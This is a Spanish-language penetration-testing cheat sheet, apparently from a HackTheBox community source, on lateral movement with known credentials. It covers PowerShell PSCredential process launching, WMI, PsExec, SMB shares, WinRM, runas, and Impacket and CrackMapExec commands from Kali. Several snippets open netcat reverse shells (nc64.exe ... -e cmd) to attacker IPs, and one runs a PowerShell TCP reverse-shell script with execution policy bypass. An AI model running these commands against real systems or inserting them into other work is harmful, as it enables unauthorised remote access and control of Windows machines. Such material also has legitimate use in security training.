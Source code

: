 POWERSHELL
-------------------------------------
```
$pass = ConvertTo-SecureString "pass" -AsPlainText -Force
$mycreds = New-Object System.Management.Automation.PSCredential ("username", $pass)
$computer = "hostname"
[System.Diagnostics.Process]::Start("c:\nc64.exe","10.10.10.10 4567 -e cmd",$mycreds.Username, $mycreds.Password, $computer)
´´´

```
$pass = ConvertTo-SecureString "pass" -AsPlainText -Force
$mycreds = New-Object System.Management.Automation.PSCredential ("username", $pass)
start-process -Credential $mycreds c:\users\"daniel lopez"\desktop\nc64.exe -argumentlist "10.10.10.10 4567 -e cmd"
´´´

```
$pass = ConvertTo-SecureString "pass" -AsPlainText -Force
$mycreds = New-Object System.Management.Automation.PSCredential ("username", $pass)
invoke-wmimethod win32_process -name create -Credential $mycreds -argumentlist 'nc64.exe 10.10.13.6 9090 -e cmd'
´´´´

EMPIRE --> spawnas


PsExec (PStools microsoft)
-----------------------------------
```
./PsExec64.exe -accepteula -u user -p pass cmd /c C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -exec bypass -File "C:\Tools\Invoke-PowerShellTcp.ps1"
´´´

```
PsExec64.exe -accepteula -u attl4s -p pass cmd /k C:\users\attl4s\desktop\nc64.exe 192.168.1.50 4567´´´´

SMB
------------------------------------
```
net use \\127.0.0.1 /user:domain\user pass
    net use    
    dir \\127.0.0.1\c$
    dir \\127.0.0.1\ADMIN$
´´´
    
WMIC (No se pueden usar las credenciales de usuario para conexiones locales) (Interactive)
----------------------------------
```
wmic /node:hostname /user:domain\user path win32_process call create calc.exe
´´´

WINRM
---------------------------
```
$pass = ConvertTo-SecureString "Zx^#QZX+T!123" -AsPlainText -Force
$mycreds = New-Object System.Management.Automation.PSCredential ("username", $pass)
$computer = "machine"
Invoke-Command -Computer $computer -ScriptBlock {whoami} -credential $mycreds
´´´

```
$pass= ConvertTo-SecureString "pass" -AsPlainText -Force
$mycreds = New-Object System.Management.Automation.PSCredential ("user", $pass)
$computer="hostname"
Enter-PSSession -ComputerName $computer -Credential $mycreds
´´´
    
RUNAS (Interactive)
-----------------------------------
```
runas /netonly /user:domain\user "cmd.exe"
    pass
´´´
REMOTO DESDE KALI
-------------------------
```
psexec.py user:pass@10.10.10.10
smbexec.py user:pass@10.10.10.10
wmiexec.py user:pass@10.10.10.10
CrackMapExec.py 10.10.10.10 -d domain -u user -p pass -x cmd

smbclient -U "Administrator" \\\\10.10.10.10\\C$
smbclient \\\\10.10.10.10\\Users -U user pass

rdp_check.py domain\user:pass@10.10.10.10
rdesktop -d domain -u user -p pass 10.10.10.10
´´´

Fuente
---
HackTheBox Hispano (Telegram)
